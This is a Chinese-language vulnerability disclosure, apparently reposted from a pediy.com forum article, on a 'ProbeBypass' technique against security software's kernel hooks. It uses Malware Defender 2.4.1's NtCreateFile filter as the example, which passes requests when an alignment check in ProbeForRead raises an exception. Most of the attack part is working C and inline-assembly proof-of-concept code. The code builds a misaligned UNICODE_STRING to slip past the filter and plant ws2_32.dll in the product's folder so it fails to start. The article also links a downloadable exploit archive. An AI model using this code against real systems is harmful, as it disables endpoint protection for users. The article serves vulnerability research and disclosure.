

# ProbeBypass 攻击技术

> 原文：[`www.pediy.com/kssd/pediy10/100321.html`](https://www.pediy.com/kssd/pediy10/100321.html)

本文介绍了一种方法，利用很多安全防御软件在进行用户态内存校验时的漏洞，对其保护系统进行攻击，达到绕过保护的目的。  
  
这是安全防御软件对于用户态内存校验未能慎重处理而引发的恶果之一。去年 10 月我曾在对国内外绝大部分主动防御产品的系列漏洞文章中，揭示了同样由于对用户态内存校验不慎重，导致的一些本地内核模式拒绝访问漏洞的问题，这里我将介绍利用这类漏洞进行的攻击绕过方法，这个漏洞是我去年发现并在内部圈子做过一些讨论的，现在我将它公开出来。  
  
本文会以 Malware Defender 最新版 2.4.1 的实际存在的漏洞为例，来讲解这个攻击方法，但并不代表仅有这个安全软件存在漏洞，市面上大部分带防御驱动的安全产品都存在此漏洞。  
  
很多安全防御软件在进行用户态内存的校验时，会使用 ProbeForRead 函数，这个函数的源代码如下：  

代码:

```
   if (Length != 0) {
        if (((ULONG\_PTR)Address & (Alignment - 1)) != 0) {
            ExRaiseDatatypeMisalignment();

        } else if ((((ULONG\_PTR)Address + Length) > (ULONG\_PTR)MM\_USER\_PROBE\_ADDRESS) ||
                   (((ULONG\_PTR)Address + Length) < (ULONG\_PTR)Address)) {

            \*(volatile UCHAR \* const)MM\_USER\_PROBE\_ADDRESS = 0;
        }
    }

```

我们可以看到它实际做了这么两件事：  
  
1.检查缓存长度不为 0 后，检查内存是否按指定的字节数对其  
  
2.检查整个缓存区是否位于用户态内存范围内  
  
这两个检查任意一个不成功，该函数都会引发一个异常，通常防御软件的驱动程序会在调用这个 API 的函数内设置 try\_except,并由其来捕获异常。通常在安全软件的 HOOK 过滤函数中，当捕获到这个异常，会直接放行这个操作  
  
那么很容易想到，如果过滤函数中，未能正确设置要对齐的字节数，例如，过滤函数中，对某个缓存设置的对齐字节数为 2，那么若缓存地址并未按 2 对齐，这时过滤驱动就会放行这个函数请求。但是如果 Windows 内核中，对这个缓存并不需要其按 2 对其进行检查，那么这个请求就会成功执行了。。  
  
以 Malware Defender 为例，其核心驱动 mdcore.sys(2.4.0.0 Final , CheckSum:4AE56 Timestamp:0x4AE7D795)，对 NtCreateFile 的挂钩中有这样的处理  
  
代码:

```
HookedNtCreateFile(....)

{

IncRefCnt(NT\_CREATE\_FILE\_INDEX);

... //省略无关代码

\_\_try

{

ProbeForRead(ObjectAttributes , sizeof(OBJECT\_ATTRIBUTES) , 1);

ProbeForRead(ObjectAttributes->ObjectName , sizeof(UNICODE\_STRING) , sizeof(WORD));

///省略无关代码

}

\_\_except(EXCEPTION\_EXECUTE\_HANDLER)

{

bPassRequest = TRUE ;

}

if (bPassRequest)

{

///此处调用原始函数，放行操作

}

```

可以看到，MD 对 ObjectAttributes 的 ObjectName 参数进行 ProbeForRead 时，使用了对齐字节数 2 ， 但系统对这个参数的对齐是如何处理的呢？  
  
实际上 NtCreateFile 对这个参数的处理位于:NtCreateFile->IoCreateFile->IopCreateFile->ObOpenObjectByName->ObpCaptureObjectCreateInformation->ObpCaptureObjectName 中  
  
关键代码如下：  
代码:

```

    try {

        if (ProbeMode != KernelMode) {

            ProbeAndReadUnicodeStringEx(&InputObjectName, ObjectName);

            ProbeForRead( InputObjectName.Buffer,
                          InputObjectName.Length,
                          sizeof(WCHAR) );

.....

```

ProbeAndReadUnicodeStringEx 宏的实现：  
  
代码:

```
#define ProbeAndReadUnicodeString(Source) \\
    (((Source) >= (UNICODE\_STRING \* const)MM\_USER\_PROBE\_ADDRESS) ? \\
        (\*(volatile UNICODE\_STRING \* const)MM\_USER\_PROBE\_ADDRESS) : (\*(volatile UNICODE\_STRING \*)(Source)))

```

可以看到，系统对这个参数压根没有进行任何字节对齐检查。  
  
因此，我们可以构造一个特殊的 NtCreateFile 请求，并将 ObjectName 存放的缓存设置为不按 2 对齐的，就可以绕过 MD 的过滤，进行任何创建文件操作，例如，创建一个 ws2\_32.dll 到 md 的目录下，导致其无法启动（正常 MD 保护打开时，是无法创建这个文件的）  
  
示例代码如下：  
代码:

```

WCHAR Filefname\[MAX\_PATH\] = L"\\\\??\\\\c:\\\\program files\\\\malware defender\\\\ws2\_32.dll\\\\";


HMODULE hmod = GetModuleHandle("ntdll.dll");
PVOID pNtCreateFile = GetProcAddress(hmod , "NtCreateFile");

if (pNtCreateFile == 0)
{
   printf("cannot get NtCreateFile\\n");
   getchar();
   return 0 ; 
}

HANDLE hFile ; 
ULONG FileAccess = DIRECTORY\_ALL\_ACCESS ;
OBJECT\_ATTRIBUTES oba ; 
IO\_STATUS\_BLOCK iosb ; 
ULONG FileAttr = FILE\_ATTRIBUTE\_NORMAL ; 
ULONG FileShare = FILE\_SHARE\_READ | FILE\_SHARE\_WRITE ;
ULONG CreateDispos = FILE\_CREATE ; 
ULONG CreateOptions = FILE\_DIRECTORY\_FILE;
LONG stat ;
UNICODE\_STRING uniname ; 
uniname.Length = wcslen(Filefname) \* sizeof(WCHAR);
uniname.MaximumLength = MAX\_PATH \* sizeof(WCHAR);
uniname.Buffer = Filefname ; 
PVOID pUniName = malloc(0x1000);
while (((ULONG)pUniName & 1) == 0 )
{
   pUniName = (PVOID)((ULONG)pUniName + 1) ; 
}

CopyMemory(pUniName , &uniname , sizeof(UNICODE\_STRING));


InitializeObjectAttributes(&oba , (PUNICODE\_STRING)pUniName , OBJ\_CASE\_INSENSITIVE , 0 , 0 );
\_\_asm
{

   push 0
   push 0
   push CreateOptions
   push CreateDispos
   push FileShare
   push FileAttr
   push 0
   lea eax , iosb
   push eax
   lea eax ,oba
   push eax
   push FileAccess
   lea eax ,hFile
   push eax
   call pNtCreateFile
   mov stat , eax
}

if (stat != 0 )
{
   printf("cannot open file %ws %08x\\n" , Filefname , stat);
   getchar();
   return 0; 
}

printf("create File OK!\\n");

getchar();
return 0;

```

攻击结果：  
  
  
  
测试程序下载：  
  
附件 killmdfile.rar  
或到 http://mj0011.ys168.com 漏洞演示目录下 killmdfile.rar 下载